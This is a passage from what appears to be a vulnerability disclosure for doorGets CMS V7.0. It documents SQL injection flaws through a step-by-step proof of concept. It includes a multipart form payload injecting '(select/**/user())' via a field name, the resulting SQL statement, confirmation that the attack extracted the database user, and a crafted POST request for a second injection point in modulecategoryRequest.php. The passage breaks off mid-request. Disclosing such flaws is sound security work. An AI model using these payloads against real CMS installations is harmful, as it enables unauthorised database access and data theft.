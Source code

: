 aaaaaaaaaa
------WebKitFormBoundaryEAq599OKe9At35v5
Content-Disposition: form-data; name="configuration_analytics_analytics=(select/**/user())/**/where/**/id=1#"

aaaaaaaaaa
------WebKitFormBoundaryEAq599OKe9At35v5
Content-Disposition: form-data; name="configuration_analytics_submit"

Save
------WebKitFormBoundaryEAq599OKe9At35v5--
```
The SQL statement executed by the program is:
```UPDATE `_website` SET analytics = 'aaaaaaaaaa', analytics=(select/**/user())/**/where/**/id=1# = 'aaaaaaaaaa' WHERE id = '1'  LIMIT 1;```

Then visit ```http://domain.com/dg-user/?controller=configuration&action=analytics```
You can see that the value of select user() obtained by injection is: root@localhost

![60.png](./img/60.png)

**[15]**

In \doorGets_CMS_V7.0\doorgets\app\requests\user\modulecategoryRequest.php:

![61.png](./img/61.png)

Line 155 calls the dbQI function and passes the parameter $dataNext for database query. Because there is no filtering, SQL injection is caused.

After the administrator logs in, visit ```http://domain.com/dg-user/?controller=modulecategory&uri=blog&lg=en```
Click below:

![62.png](./img/62.png)

After filling in the data, capture the packet, replace the obtained cookie and modulecategory_add_token with the following request, and then submit:
```
POST /dg-user/?controller=modulecategory&uri=blog&action=add HTTP/1.1
Host: 127.0.0.1:8003
Content-Length: 1482
Cache-Control: max-age=0
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylPbmXrBulFPAjyLA
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/?controller=modulecategory&uri=blog&action=add
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6laloptc1mdug324doe9j3g1n6
Connection: close
